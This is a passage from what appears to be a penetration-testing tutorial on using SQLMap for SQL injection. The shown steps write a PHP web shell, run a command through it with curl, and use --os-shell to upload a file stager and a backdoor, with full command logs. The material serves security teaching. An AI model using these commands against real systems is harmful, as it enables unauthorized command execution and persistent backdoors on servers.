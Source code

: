 We see that SQLMap confirmed that the file was indeed written:
```bash
[17:54:28] [INFO] the local file 'shell.php' and the remote file '/var/www/html/shell.php' have the same size (31 B)
```

Now, we can attempt to access the remote **PHP** shell, and execute a sample command:
```bash
$ curl http://www.example.com/shell.php?cmd=ls+-la

total 148
drwxrwxrwt 1 www-data www-data   4096 Nov 19 17:54 .
drwxr-xr-x 1 www-data www-data   4096 Nov 19 08:15 ..
-rw-rw-rw- 1 mysql    mysql       188 Nov 19 07:39 basic.php
...SNIP...
```

We see that our **PHP** shell was indeed written on the remote server, and that we do have command execution over the host server.
### OS Command Execution
Now that we confirmed that we could write a **PHP shell** to get command execution, we can test SQLMap's ability to give us an easy ``OS shell`` without manually writing a remote shell. 

SQLMap utilizes various techniques to get a remote shell through SQLi, like writing a remote shell, as we just did, writing SQL functions that execute commands and retrieve output or even using some SQL queries that directly execute OS command, like '`xp_cmdshell`' in Microsoft SQL Server. To get an OS shell with SQLMap, we can use the '`--os-shell`' option, as follows:
```bash
$ sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E

[*] starting @ 18:05:59 /2020-11-19/

[18:05:59] [INFO] resuming back-end DBMS 'mysql'
[18:05:59] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 4

do you want sqlmap to further try to provoke the full path disclosure? [Y/n] y

[18:06:07] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?
[1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/htdocs, /var/www/nginx-default, /srv/www/htdocs') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 1

[18:06:09] [WARNING] unable to automatically parse any web server path
[18:06:09] [INFO] trying to upload the file stager on '/var/www/' via LIMIT 'LINES TERMINATED BY' method
[18:06:09] [WARNING] potential permission problems detected ('Permission denied')
[18:06:10] [WARNING] unable to upload the file stager on '/var/www/'
[18:06:10] [INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
[18:06:11] [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://www.example.com/tmpumgzr.php
[18:06:11] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://www.example.com/tmpbznbe.php
```